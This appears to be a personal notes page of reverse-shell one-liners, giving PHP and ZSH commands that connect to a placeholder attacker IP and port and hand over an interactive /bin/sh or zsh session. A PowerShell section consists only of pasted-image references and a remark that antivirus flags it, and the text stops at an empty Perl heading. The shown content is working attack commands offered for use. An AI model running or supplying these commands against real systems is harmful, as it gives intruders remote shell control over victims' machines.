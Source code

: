 
![[Pasted image 20240628034640.png]]


## PHP

```
php -r '$sock=fsockopen("<attacker IP>",<attacker port>);exec("/bin/sh -i <&3 >&3 2>&3");'

```

## ZSH

```
zsh -c 'zmodload zsh/net/tcp && ztcp <attacker IP> <attacker port> && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```

## Powershell

!<mark style="background: #FF5582A6;"> Powershell reverse shell gets flagged by Windows AV and could delete the file</mark>

Part 1 of the code:

![[Pasted image 20240628041137.png]]

Part 2:

![[Pasted image 20240628041157.png]]

Part 3:

![[Pasted image 20240628041217.png]]

Part 4:

![[Pasted image 20240628041234.png]]

Part 5:

![[Pasted image 20240628041251.png]]

Part 6:

![[Pasted image 20240628041324.png]]

Part 7:

![[Pasted image 20240628041335.png]]

## Perl
